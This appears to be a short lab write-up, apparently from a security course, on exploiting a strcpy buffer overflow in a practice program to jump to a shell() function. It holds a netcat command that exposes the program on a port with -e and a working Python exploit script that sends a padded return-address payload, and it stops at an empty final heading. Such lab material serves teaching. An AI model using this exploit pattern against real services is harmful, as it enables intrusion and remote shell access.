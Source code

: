 ### Objective

Exploit a buffer overflow vulnerability in a network service to execute a shell function.

### Victim Program Analysis

**Key Functions:**

- `shell()`: Target function to execute
- `vulnerable()`: Contains the vulnerable `strcpy()` call
- `main()`: Provides helpful debugging information

### Finding the Shell Address

```bash
./victim-2020
```

### Network Service Setup

```bash
nc -l -p 60000 -e ./victim-2020
```

### Exploit Code

```python
#!/usr/bin/python3
# attack.py

import telnetlib

# Open connection to victim service
tn = telnetlib.Telnet("127.0.0.1", 60000)

# Configuration
offset = int(input("Offset (40?): "))
target_addr = input("Target (shell) address (e.g., 5647740e61b5): ")

# Create payload
buff = offset * (b'x')
addr = bytearray.fromhex(target_addr)
addr.reverse()  # Little-endian conversion
buff += addr

# Send payload
tn.write(buff)
tn.write(b'\n')

# Interactive session
tn.interact()
```

### Attack Execution Steps
